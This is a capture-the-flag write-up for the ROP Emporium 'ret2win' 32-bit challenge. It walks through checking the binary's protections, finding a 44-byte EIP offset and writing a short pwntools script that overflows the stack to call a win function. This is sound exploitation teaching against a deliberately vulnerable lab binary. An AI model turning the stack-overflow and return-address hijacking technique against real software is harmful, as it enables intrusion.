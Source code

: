 **ROP Emporium - ret2win (32-bit)**

## **Gathering information about file**


![](p/1.png)


Confirmed that file is 32 bit. Now we can check protections of that ELF.


![](p/2.png)


As we can see NX bit is set, so we are not allowed any machine code in the stack. However stack canary is turned off, so there is possibility of making buffer overflow.


![](p/3.png)

We got segmentaion fault, so we have buffer overflow vulnerability here.

## **Reversing ret2win**

Now we need to look around our binary - check what functions are here, what are they doing etc. To do this we will utilize pwndbg.


![](p/4.png)


As you can see there are 2 interesting functions: `pwnme` and `ret2win`. Let's disassemble them using `radare2`.


*`pwnme()`:*


![](p/5.png)


This function is responsible for providing some information to a user and receiving input from user. There is nothing interesting here.


*`ret2win()`:*


![](p/6.png)


This function is the most interesting, because it is responsible for printing flag. Now let's look at `main()` function, because we need to know what tactic should we take to get a flag.


![](p/7.png)


There is no calling for `ret2win` function. So our goal is to utlizie buffer overflow vulnerability to jump to `ret2win` function.


## **Finding offset**

Let's generate some pattern to use it on our vulnerable binary.


![](p/8.png)


EIP register was overwriten with `0x6161616c ('laaa')`, we can use `cyclic -o <EIP>`. 



![](p/9.png)


So offset value is 44.


## **Exploitation**

### **FOR UBUNTU USERS**

If you are doing this CTF on Ubuntu you need to add additional return value due to MOVAPS issue. To get this additional value you can use ROPGadget.


```
ROPgadget --binary ./ret2win32 --ropchain
```

![](p/10.png)

Let's write `ret` value: 0x0804837e.


### **Writing exploit**

```python
from pwn import *

elf = ELF("ret2win32")
info("%#x target", elf.symbols.ret2win)
io = process(elf.path)
ret2win = p32(elf.symbols.ret2win)
payload = b"A"*44 + p32(0x0804837e) + ret2win
io.sendline(payload)
io.interactive()
```

### **Running exploit**


![](p/11.png)


We properly got a flag.


